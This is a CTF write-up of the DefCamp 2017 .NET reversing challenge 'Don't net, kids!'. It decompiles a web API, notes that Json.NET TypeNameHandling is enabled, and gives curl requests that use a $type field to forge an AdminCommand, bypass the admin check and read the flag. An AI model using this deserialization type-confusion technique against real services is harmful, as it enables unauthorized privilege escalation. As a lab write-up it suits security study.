 ```yaml
---
layout: post
title: "[DefCamp CTF Qualification 2017] Don't net, kids! (Revexp 400)"
date: 2017-10-01 11:00:00
share: true
comments: true
description: Writeup for Don't net, kids! 
tags: [DefCamp CTF Qualifications 2017, .Net Reversing]
---
```


## Don't net, kids!

You're provided with a [big zip file](http://ccsir.org/files/dotnot.zip) that contains mostly dot net libraries and a few challenge specific ones. Since the name of the challenge hints to be a .Net reversing challenge I focused on DCTFNetCoreWebApp.dll.

I used dotPeek to decompile it and found the following:

1. `DCTFNetCoreWebApp`: Mostly some logic to get the webapp running.
2. `DCTFNetCoreWebApp.Business`: Contains the API logic (the Executor class). This contains the allowed actions as well (Notice how getflag is considered an AdminCommand).
3. `DCTFNetCoreWebApp.Controllers`: Parser for GET/POST requests revealing the route (/api/command)

    ```console
    abatchy@ubuntu:~/Desktop$ curl https://dotnot.dctf-quals-17.def.camp/api/command
    Hi! Nothing here :)
    ```

4. `DCTFNetCoreWebApp.Models`: Models defining the command layout which we'll need to communicate with the API.


The meat of the code is the `Execute` method:

```csharp
public Command Execute(Command command)
{
  // Need to be authenticated
  if (this._guestActions.Contains(command.Action.ToLower()))
    return this.Authenticate(command);
  if (!this.IsAuthenticated(command))
    throw new Exception("Authentication required!");
  // Is the command of type AdminCommand?
  bool flag = ((MemberInfo) command.GetType()).get_Name().Equals(((MemberInfo) typeof (AdminCommand)).get_Name());
  if (this._adminActions.Contains(command.Action.ToLower()) && !flag)
    throw new Exception("Command not allowed!");
  if (!this._userActions.Contains(command.Action.ToLower()) && !flag)
    throw new Exception("Invalid action");
  string lower = command.Action.ToLower();
  if (lower == "get")
    return this.Get(command);
  if (lower == "set")
    return this.Set(command);
  if (lower == "list")
    return this.List(command);
  if (lower == "readflag")
    return this.ReadFlag(command);
  throw new Exception("Command not implemented!");
}
```

1. You need to be authenticated.
2. Command needs to be of `AdminCommand` type (inherited).

Let's try first just contacting the API with a command. Parser for POST:

```csharp
[HttpPost]
public string Post()
{
  if (((ControllerBase) this).get_Request().get_Body().get_CanSeek())
    ((ControllerBase) this).get_Request().get_Body().set_Position(0L);
  string end = ((TextReader) new StreamReader(((ControllerBase) this).get_Request().get_Body())).ReadToEnd();
  Console.WriteLine(end);
  try
  {
    string str1 = end;
    JsonSerializerSettings serializerSettings = new JsonSerializerSettings();
    int num = 4;
    serializerSettings.set_TypeNameHandling((TypeNameHandling) num);
    string str2 = JsonConvert.SerializeObject((object) this._executor.Execute(((Request) JsonConvert.DeserializeObject<Request>(str1, serializerSettings)).Command));
    Console.WriteLine(str2);
    return str2;
  }
  catch (Exception ex)
  {
    Console.WriteLine(ex.Message);
    return ex.Message;
  }
}
```

Few notes:
1. Data provided is parsed to a Command object found in models.
2. [TypeNameHandling](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm) is set to Auto, which we need later.


### 1. Authenticate: 

```console
abatchy@ubuntu:~/Desktop$ curl -X POST -H "Content-Type: application/json" -d '{"Command":{ "Action": "authenticate" } }' https://dotnot.dctf-quals-17.def.camp/api/command

{"UserId":"da268d19-b985-4779-bbdf-736ee4ec9b32","Action":"authenticate","Query":null,"Value":null,"Response":null,"Error":null}
```

From now on we'll be using the GUID provided.

### 2. Readflag

```console
abatchy@ubuntu:~/Desktop$ curl -X POST -H "Content-Type: application/json" -d '{"Command":{"UserId":"da268d19-b985-4779-bbdf-736ee4ec9b32", "Action":"Readflag" } }' https://dotnot.dctf-quals-17.def.camp/api/command

Command not allowed!
```

So unfortunately this command fails as the `flag` is set to false. We need to cast the JSON to an AdminCommand using `$type` field.

I tried setting it to `DCTFNetCoreWebApp.Models.AdminCommand` but it returned an error message.

```console
abatchy@ubuntu:~/Desktop$ curl -X POST -H "Content-Type: application/json" -d '{"$type":"DCTFNetCoreWebApp.Models.AdminCommand", "Command":{"UserId":"da268d19-b985-4779-bbdf-736ee4ec9b32", "Action":"Readflag" } }' https://dotnot.dctf-quals-17.def.camp/api/command

Type specified in JSON 'DCTFNetCoreWebApp.Models.AdminCommand' was not resolved. Path '$type', line 1, position 48.
```

Then I thought of casting it to a known class that definitely exists, maybe the error shows any data.

```console
abatchy@ubuntu:~/Desktop$ curl -X POST -H "Content-Type: application/json" -d '{"Command":{"$type":"System.Guid", "UserId":"da268d19-b985-4779-bbdf-736ee4ec9b32", "Action":"Readflag" } }' https://dotnot.dctf-quals-17.def.camp/api/command

Type specified in JSON 'System.Guid, System.Private.CoreLib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=7cec85d7bea7798e' is not compatible with 'DCTFNetCoreWebApp.Models.Command, DCTFNetCoreWebApp, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null'. Path 'Command.$type', line 1, position 33.
```

Nice! We got the full type to use, replace Request with AdminCommand and we're good to go.

```console
abatchy@ubuntu:~/Desktop$ curl -X POST -H "Content-Type: application/json" -d '{"Command":{"$type":"DCTFNetCoreWebApp.Models.AdminCommand, DCTFNetCoreWebApp, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null", "UserId":"da268d19-b985-4779-bbdf-736ee4ec9b32", "Action":"Readflag" } }' https://dotnot.dctf-quals-17.def.camp/api/command

{"UserId":"da268d19-b985-4779-bbdf-736ee4ec9b32","Action":"Readflag","Query":null,"Value":null,"Response":"DCTF{4e388d989d6e9cfd2ba8a0ddf0f870c23c4936fabfc5c271d065a467af96e387}\n","Error":null}
```

The flag is `DCTF{4e388d989d6e9cfd2ba8a0ddf0f870c23c4936fabfc5c271d065a467af96e387}`.

\- Abatchy